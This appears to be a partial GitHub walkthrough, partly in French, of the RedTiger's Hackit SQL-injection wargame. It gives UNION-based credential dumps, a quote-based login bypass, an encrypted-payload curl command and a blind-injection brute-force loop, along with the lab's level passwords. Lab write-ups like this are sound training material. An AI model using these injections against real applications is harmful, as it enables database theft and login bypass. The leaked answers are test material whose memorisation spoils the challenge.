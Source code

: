RedTigers-Hackit
================
https://redtiger.labs.overthewire.org/

1. Level 1 : Simple SQL-Injection
```
https://redtiger.labs.overthewire.org/level1.php?cat=1%20union%20select%201,2,username,password%20from%20level1_users
```
  You made it dude!

  The password for the next level is: easylevelsareeasy_! 
   
2. Level 2 : Simple login-bypass
```
username : a' OR '1'='1
password : a' OR '1'='1
```
  The password for the next level is: securitycat_says_meow_and_likes_cheese 
  
3. Level 3 : Get an error

  Génération de l'erreur :
```
https://redtiger.labs.overthewire.org/level3.php?usr%5B0%5D=a&usr%5B1%5D=b
```
Warning: preg_match() expects parameter 2 to be string, array given in /var/www/hackit/urlcrypt.inc on line 21

```PHP
<?php
  		
	function encrypt($str)
	{
		$cryptedstr = "";
		for ($i =0; $i < strlen($str); $i++)
		{
			$temp = ord(substr($str,$i,1)) ^ 192;
			
			while(strlen($temp)<3)
			{
				$temp = "0".$temp;
			}
			$cryptedstr .= $temp. "";
		}
		return base64_encode($cryptedstr);
	}
  
	function decrypt ($str)
	{
		if(preg_match('%^[a-zA-Z0-9/+]*={0,2}$%',$str))
		{
			$str = base64_decode($str);
			if ($str != "" && $str != null && $str != false)
			{
				$decStr = "";
				
				for ($i=0; $i < strlen($str); $i+=3)
				{
					$array[$i/3] = substr($str,$i,3);
				}

				foreach($array as $s)
				{
					$a = $s^192;
					$decStr .= chr($a);
				}
				
				return $decStr;
			}
			return false;
		}
		return false;
	}
?>
```
on le stocke dans un fichier php auquel on ajoute 
```php
echo encrypt($argv[1]);
```

plus qu'à trouver le nombre de champs et afficher le mot de passe 
```
curl --insecure -b level3login=securitycat_says_meow_and_likes_cheese https://redtigire.org/level3.php?usr=`php toto.php "' union select 1,username,3,4,5,password,7 from level3_users where username='Admin "` 
```
 Login correct. You are admin :); 
 The password for the next level is: dont_publish_solutions_GRR! 
 
4. Level 4 : Blind Injection
   Identification de la taille du mot à trouver
```nix
https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20length%28keyword%29%3C10
=> 2 rows
https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20length%28keyword%29%3C20
=> 1 row ==> taille entre 10 et 20 caractères
https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20length%28keyword%29=17
=> mot de 17 caractères

on devine maintenant le mot
for i in {1..17}; do
	for x in {a..z}; do 
	curl --insecure -b level4login=dont_publish_solutions_GRR%21 "https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20SUBSTR(keyword,$i,1)='$x'" 2>/dev/null |grep "2 rows"
	rc=$?
	if [[ $rc == 0 ]] ; then
		echo $x
		break;
	fi

	done
done
manque les derniers caractères :-(

for i in {14..17}; do
	for x in {0..9}; do
	curl --insecure -b level4login=dont_publish_solutions_GRR%21 "https://redtiger.labs.overthewire.org/level4.php?id=1%20union%20select%20keyword,1%20%20from%20level4_secret%20where%20SUBSTR(keyword,$i,1)='$x'" 2>/dev/null |grep "2 rows"
	rc=$?
	if [[ $rc == 0 ]] ; then
		echo $x
		break;
	fi

	done
done

==> blindinjection123
```
 Word correct. 
 The password for the next level is: bananas_are_not_yellow-sometimes

```nix
echo -n toto | md5sum
f71dbe52628a3f83a77ab494817525c6  -

login : ' union 'pouet', 'f71dbe52628a3f83a77ab494817525c6
passwd : f71dbe52628a3f83a77ab494817525c6
```
  Login successful!
  
  The password for the next level is: my_cat_says_meow_meowmeow 
  
5. Level 5 : Advanced login-bypass
6. Level 6 : SQL-Injection
7. Level 7 : SQL-Injection
8. Level 8 : SQL-Injection
9. Level 9 : SQL-Injection
10. Level 10
